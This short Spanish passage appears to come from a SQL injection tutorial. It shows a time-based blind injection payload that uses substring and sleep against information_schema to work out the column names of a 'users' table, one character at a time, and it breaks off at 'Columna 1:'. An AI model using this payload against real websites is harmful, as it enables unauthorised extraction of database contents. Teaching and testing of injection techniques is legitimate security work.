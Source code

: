 ![av. cant. car. col](/assets/img/screens/av_car_col2.png)

La máxima cantidad de caracteres es: 9

<br>
"Visualizando" columnas de la base de datos actual:

Payload:

<pre><font class="ej">URL</font> + <font class="bordo">AND IF(substring((SELECT column_name FROM information_schema.columns WHERE table_name="users" LIMIT n,1),x,1)='x',sleep(8),null);#</font></pre>

<br>
Columna 1: